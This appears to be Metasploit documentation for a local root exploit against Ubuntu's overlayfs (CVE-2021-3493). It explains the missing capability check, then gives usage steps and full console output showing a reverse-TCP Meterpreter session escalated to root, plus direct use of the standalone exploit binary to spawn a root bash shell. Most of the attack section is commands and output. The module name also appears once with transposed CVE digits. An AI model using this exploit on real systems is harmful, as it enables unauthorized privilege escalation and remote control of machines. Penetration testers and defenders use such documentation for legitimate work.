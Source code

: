 ## Vulnerable Application

This module exploits a vulnerability in Ubuntu's implementation of overlayfs.  The
vulnerability is the result of failing to verify the ability of a user to set the
attributes in a running executable. Specifically, when Overlayfs sends the set attributes
data to the underlying file system via `vfs_setxattr`, it fails to first verify the data
by calling `cap_convert_nscap`.
This vulnerability was patched by moving the call to `cap_convert_nscap`
into the `vfs_setxattr` function that sets the attribute, forcing verification every time the
`vfs_setxattr` is called rather than trusting the data was already verified.

### Install

Install Ubuntu from version 14.04LTS to 20.04 LTS

## Verification Steps

1. Make an Ubuntu
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu Target and connect the handler
1. Do: `use exploit/linux/local/cve_2021_3943_overlayfs`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### Ubuntu 20.04.0 x64

```
msf exploit(linux/local/cve_2021_3493_overlayfs) > 
[*] Sending stage (3012548 bytes) to 192.168.132.138
[*] Meterpreter session 9 opened (192.168.135.197:4567 -> 192.168.132.138:47988 ) at 2021-11-09 11:34:44 -0600

msf exploit(linux/local/cve_2021_3493_overlayfs) > sessions -i 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer     : ubuntu-20.04.0
OS           : Ubuntu 20.04 (Linux 5.4.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 9...
msf exploit(linux/local/cve_2021_3493_overlayfs) > set session 9
session => 9
msf exploit(linux/local/cve_2021_3493_overlayfs) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.4.0", "26", "generic"]
[*] major_version: 5.4.0
[*] minor_version: 26
[+] The target appears to be vulnerable.
[*] Creating directory /tmp/.wH0xRHji
[*] /tmp/.wH0xRHji created
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wH0xRHji/.PsJzzn' (17840 bytes) ...
[*] Writing '/tmp/.wH0xRHji/.Doeg4dSW1G' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.wH0xRHji/.PsJzzn /tmp/.wH0xRHji/.Doeg4dSW1G /tmp/.wH0xRHji 6PFbO1d
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.132.138
[+] Deleted /tmp/.wH0xRHji/.PsJzzn
[*] Meterpreter session 10 opened (192.168.135.197:4444 -> 192.168.132.138:41814 ) at 2021-11-09 11:35:05 -0600
[*] 

meterpreter > getuid
Server username: root
```

### Included Binaries
The binaries used by this exploit `data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` and
`data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` can and be used separately from
metasploit.  The parameters required are:
```
    // argv[1] = The payload or executable you wish to launch
    // argv[2] = A directory to store the files and directories created when the exploit runs
    // argv[3] = A random string that is used to create directory names.
```
```
msfuser@ubuntu-18041:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@ubuntu-18041:~$ mkdir /tmp/test
msfuser@ubuntu-18041:~$ ./cve_2021_3493.x64.elf /bin/bash /tmp/test abcdef
root@ubuntu-18041:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(msfuser)
root@ubuntu-18041:~# 
```

